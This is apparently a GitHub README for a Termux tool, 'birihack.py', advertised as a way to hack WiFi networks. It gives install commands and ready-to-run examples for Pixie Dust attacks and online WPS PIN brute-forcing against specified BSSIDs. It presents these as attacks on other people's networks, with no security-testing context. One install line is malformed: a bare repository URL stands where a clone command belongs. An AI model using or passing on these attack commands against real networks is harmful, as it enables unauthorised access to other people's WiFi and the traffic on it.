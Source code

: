 <h1 align="center">Hack WIfi Using Termux! (Requires Root)
</h1>
<h1 align="center">THIS TOOL MAKE BY TEAM BOT HACKER [WASIM]</h1>
<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

<h1 align="center">tutorial video👇 </h1>
https://www.facebook.com/share/v/YySXjik5GrfkM6tV/?mibextid=oFDknk

### Installation :


$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ https://github.com/WASIM-360/Wifi_Hack
$ cd Wifi_Hack
$ chmod +x birihack.py
$ sudo python birihack.py --help
```

#### Example : `sudo python birihack.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python birihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python birihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python birihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
<h3 align="left">Connect with me:</h3>
<p align="left">
<a href="https://www.facebook.com/profile.php?id=100086012142332&mibextid=ZbWKwL" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="wasim360" height="30" width="40" /></a>
<a href="https://www.youtube.com/c/@wasim-360" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/youtube.svg" alt="wasim-360" height="30" width="40" /></a>
</p>
